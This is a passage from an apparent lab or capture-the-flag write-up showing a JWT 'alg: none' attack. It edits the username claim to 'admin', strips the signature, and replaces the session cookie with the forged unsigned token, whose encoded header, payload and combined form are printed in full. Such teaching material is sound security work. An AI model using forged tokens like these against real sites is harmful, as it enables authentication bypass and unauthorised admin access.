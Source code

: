 <br>

Modify the value of the username to `admin`
![alt text](image-29.png#center)

<br>

Remove Signature and combine those modified parts

- Header_modified: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0`

- Payload_modified: `eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzE5ODk1NzI0fQ`

- Combined_token_modified: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzE5ODk1NzI0fQ.`

_Notice that I still kept the dot at then end even though we removed the signature part of the token._
<br>

Replace the value of the cookie to our modified token and refresh the page
![alt text](image-30.png#center)
